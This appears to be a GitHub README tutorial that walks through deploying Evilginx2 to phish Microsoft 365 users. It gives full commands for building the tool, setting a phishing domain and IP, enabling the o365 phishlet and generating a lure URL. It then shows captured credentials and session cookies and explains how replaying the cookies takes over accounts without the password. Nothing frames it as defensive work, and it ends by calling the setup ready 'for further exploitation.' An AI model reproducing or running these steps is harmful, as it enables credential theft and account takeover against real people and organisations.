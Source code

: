 # ⚙️ Step 1: Prepare the VPS Environment

Before installing Evilginx, we need to ensure the VPS has all necessary tools and dependencies installed. This includes utilities like `wget` and the Go programming language.
```bash
sudo apt update 
sudo apt install wget -y
```
---

## 🔧 Installing Required Tools

First, update your VPS package list and install essential tools for the setup:

- `wget` for downloading files  
- `git` and `make` for building Evilginx from source
```bash
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz
```
---

## 🏗️ Installing Go (Golang)

To build Evilginx, Go must be installed on the system. The installation involves:

- Downloading the Go binary archive from the official website  
- Extracting it to `/usr/local/`  
- Configuring the system `PATH` to include Go binaries

This setup allows you to compile Evilginx without errors.
```bash
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/
```
```bash
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh
```
---

# 🕸️ Step 2: Clone and Build Evilginx

With the environment ready, clone the Evilginx source code from its GitHub repository and compile it.

---

## 📥 Cloning the Repository

Use `git` to clone the Evilginx2 repository to your VPS:

- Repository URL: `https://github.com/BakkerJan/evilginx2.git`
```bash
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make
```
---

## ⚙️ Building the Project

Navigate into the cloned directory and use `make` to compile the source code into a working binary.

---

# 🚀 Step 3: Install and Launch Evilginx

Once built, launch the Evilginx service to begin configuration.
```bash 
sudo evilginx
```
---

# 🌐 Step 4: Configure Domain and IP

Set your phishing domain and the VPS IP address within Evilginx. For example:

- Domain: `evilginxtest.shop`  
- IP: `52.144.47.242`

Apply a blacklist rule to block unauthorized requests for better security.
```bash
config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth
```
---

# 🏷️ Step 5: Enable the Office 365 Phishlet

Configure the Office 365 phishlet to use your custom domain and enable it.
```bash
phishlets hostname o365 <yourdomain> 
phishlets enable o365
```
---

## ⚠️ SSL/TLS Setup Notes

If you encounter SSL/TLS errors when enabling the phishlet:

- This usually means DNS propagation is incomplete  
- Evilginx attempts to obtain an SSL certificate via Let’s Encrypt automatically  
- Retry the enable command periodically until it succeeds

---

# 🎣 Step 6: Create and Configure the Phishing Lure

Create a lure linked to the Office 365 phishlet and set a redirect URL users will be sent to after submitting credentials.
```bash
lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0
```
---

# 👀 Step 7: Phishing Experience and Session Capture

When a user visits the lure URL, they see a page identical to Microsoft’s login screen.

![Microsoft Login Page](https://github.com/user-attachments/assets/dcf20d05-6fe2-40ff-97de-4fdee2eb6d06)

After submitting credentials, Evilginx captures them transparently.

![Credentials Captured](https://github.com/user-attachments/assets/b8fb9489-1cb8-4d6c-a3fc-38e4b8ee562f)

---

# 🗝️ Step 8: Extract and Use Session Cookies

Once authentication completes, Evilginx captures valid session cookies.

View active sessions with the appropriate command and extract session tokens.

![Session Cookies](https://github.com/user-attachments/assets/8f293e48-b323-4167-8566-2102eec0da22)

---

## 🔓 Using Captured Sessions

By injecting these cookies into a browser visiting the legitimate site, you gain authenticated access without knowing the victim’s password.

---

# 🎉 Conclusion

Your Evilginx phishing setup is now fully operational, ready to capture credentials and session cookies for further exploitation.
